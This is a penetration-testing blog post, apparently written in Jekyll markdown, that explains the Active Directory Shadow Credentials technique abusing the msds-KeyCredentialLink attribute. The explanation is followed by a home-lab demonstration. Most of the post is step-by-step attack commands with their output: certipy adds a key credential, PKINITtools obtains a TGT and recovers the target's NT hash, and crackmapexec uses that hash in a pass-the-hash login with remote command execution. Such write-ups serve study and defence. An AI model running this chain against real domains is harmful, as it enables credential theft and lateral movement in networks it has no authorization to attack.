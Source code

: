 ```yaml
---
layout: post
title: Abusing the msds-KeyCredentialLink Propertie in Active Directory - Understanding Shadow Credentials
subtitle: Using Certipy To Exploit msds-KeyCredentialLink Remotley
tags: [AD]
---
```


# What is a Shadow Credential 
Within Active Directory, both user and computer objects possess an attribute named `msds-KeyCredentialLink`, which serves as a storage location for raw public keys. These public keys can be used in Kerberos to obtain a Ticket Granting Ticket (TGT). Adding a credential/public key to this attribute is known as a "Shadow Credential." A Shadow Credential can then be used in conjunction with a Kerberos extension called Service for User to Self (S4U2Self) to obtain the NT hash of that user. 

When using public key authentication a client can obtain a special Service Ticket that contains their NTLM hash when trying to access a resource that requires it. Inside that Service Ticket is the the Privilege Attribute Certificate (PAC) that contains an entity with the encrypted NTLM hash. We cannot decrypt this because it is encrypted using the key of the service that it is issued for. 

The S4U2Self mechanism allows a user to obtain a Service Ticket for themselves, giving us the ability to decrypt the PAC. S4U2Self Service Tickets are encrypted using the targets session key.

There are two requirements that must be present in order to perform this type of attack
- Active Directory Certificate Services installed on at least a 2016 Domain Controller
- A compromised account that has rights to the `msds-KeyCredentialLink` attribute to whatever user/computer you want to exploit

Below is a basic flow of the attack

![img](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/shadowDiag.png)

# Demo
_For this demo I will do the exploitation from a remote kali machine rather than on a windows host._

In my home lab I set up a new account called `sauron` and gave `frodo` write and read permissions for the attribute `msds-KeyCredentialLink`
![img](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/writeshadow.png)

ly4k wrote a great tool called [certipy](https://github.com/ly4k/Certipy) that takes advantage of public Active Directory Certificate Services (AD CS). It has a option called `shadow` that can; list, add, remove ,clear, show info, and auto pwn the `msDS-KeyCredentialLink` attribute. 

Using the `add` command lets me add a new raw public key to the `sauron` account
```
┌──(root㉿kali)-[~]
└─# certipy shadow add -username frodo@lotr.local -p 'Press#123' -account sauron -dc-ip 10.10.1.46
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Targeting user 'sauron'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'd0d0d6f8-a2ac-20e5-a158-77def64556aa'
[*] Adding Key Credential with device ID 'd0d0d6f8-a2ac-20e5-a158-77def64556aa' to the Key Credentials for 'sauron'
[*] Successfully added Key Credential with device ID 'd0d0d6f8-a2ac-20e5-a158-77def64556aa' to the Key Credentials for 'sauron'
[*] Saved certificate and private key to 'sauron.pfx'
```

Looking at the property on suaron's account a new attribute is present 
![img](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/shadow.png)

Next we can use `gettgtpkinit.py` by [kirkjanm](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py) to request a TGT using the `.pfx` file generated from `certipy`. It will give us a TGT and the AS-REP encryption key we will use de decrypt the PAC.
```
┌──(root㉿kali)-[~]
└─# python3 gettgtpkinit.py -cert-pfx sauron.pfx lotr.local/sauron out.ccache
2023-05-11 17:24:03,939 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2023-05-11 17:24:04,026 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2023-05-11 17:24:04,034 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2023-05-11 17:24:04,034 minikerberos INFO     9e2f822b380ed497d02b5b6262e4a79318e1c0109b09c0ac1476cfc5d7cb1421
INFO:minikerberos:9e2f822b380ed497d02b5b6262e4a79318e1c0109b09c0ac1476cfc5d7cb1421
2023-05-11 17:24:04,037 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

Cache the ticket in our current session
```
┌──(root㉿kali)-[~]
└─# export KRB5CCNAME=out.ccache
```

Finally `getnthash.py` by [kirkjanm](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py), will use the TGT to request a PAC using S4U2Self. It will also decrypt the PAC **giving us the NT hash**.
```
┌──(root㉿kali)-[~]
└─# python3 getnthash.py -key 9e2f822b380ed497d02b5b6262e4a79318e1c0109b09c0ac1476cfc5d7cb1421 lotr.local/sauron
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
0f7421a8a3d0b0adcafa6862fd766818
```

`certipy`, has an `auto` command that will add a new Key to the target, authenticate with the key to get the TGT and NT hash, and then clean up.
```
certipy shadow auto -username frodo@lotr.local -p 'Press#123' -account sauron -dc-ip 10.10.1.46

[*] Targeting user 'sauron'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '3aa7acab-3abc-d4ee-75ad-46913bb33c1a'
[*] Adding Key Credential with device ID '3aa7acab-3abc-d4ee-75ad-46913bb33c1a' to the Key Credentials for 'sauron'
[*] Successfully added Key Credential with device ID '3aa7acab-3abc-d4ee-75ad-46913bb33c1a' to the Key Credentials for 'sauron'
[*] Authenticating as 'sauron' with the certificate
[*] Using principal: sauron@lotr.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'sauron.ccache'
[*] Trying to retrieve NT hash for 'sauron'
[*] Restoring the old Key Credentials for 'sauron'
[*] Successfully restored the old Key Credentials for 'sauron'
[*] NT hash for 'sauron': 0f7421a8a3d0b0adcafa6862fd766818
```

Then a pass the hash attack can be performed 
```
┌──(root㉿kali)-[~]
└─# crackmapexec smb -u frodo -H 0f7421a8a3d0b0adcafa6862fd766818 -d lotr 10.10.1.47 -x 'dir'
SMB         10.10.1.47      445    WORKSTATION      [*] Windows 10 Pro 19044 x64 (name:WORKSTATION) (domain:lotr) (signing:False) (SMBv1:True)
SMB         10.10.1.47      445    WORKSTATION      [+] lotr\frodo:0f7421a8a3d0b0adcafa6862fd766818
```

These NT hashes can be cracked offline or used in a pass the hash attack. In the event that you have permissions to do this on a computer account you could take an additional step and use `impacket-ticketer` to gain a Service Ticket as HOST or CIFS as an administrator and authenticate to the machine.
